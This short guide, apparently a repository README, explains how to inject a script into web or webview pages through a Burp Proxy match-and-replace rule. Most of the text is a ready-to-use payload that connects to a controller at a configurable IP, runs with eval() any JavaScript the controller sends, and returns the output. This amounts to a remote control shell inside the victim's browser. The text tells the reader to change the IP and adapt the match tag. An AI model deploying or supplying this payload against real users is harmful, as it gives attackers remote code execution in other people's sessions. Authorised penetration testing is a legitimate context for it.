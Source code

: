 # Injecting to webview or other pages from Burp Proxy

[ Proxy > Options > Match and Replace ]

`Type`: `Response Body`

`Match` : `</title>`

`Replace` :
```
</title><script src="https://cdn.socket.io/4.4.1/socket.io.min.js"></script> <script>  var socket = io.connect('https://10.11.3.2:8089');     try{setTimeout(`socket.emit('sendMSG','Connection Established.')`,1000)}     catch{}     socket.on('getMSG',function(data){         try{              output=eval(data)+""         }         catch(e){             output=e+""         }         socket.emit('sendMSG',output)     }) </script>
```

Note - Change the IP address. If target page does not has </title> tag in response then modify it accordingly.
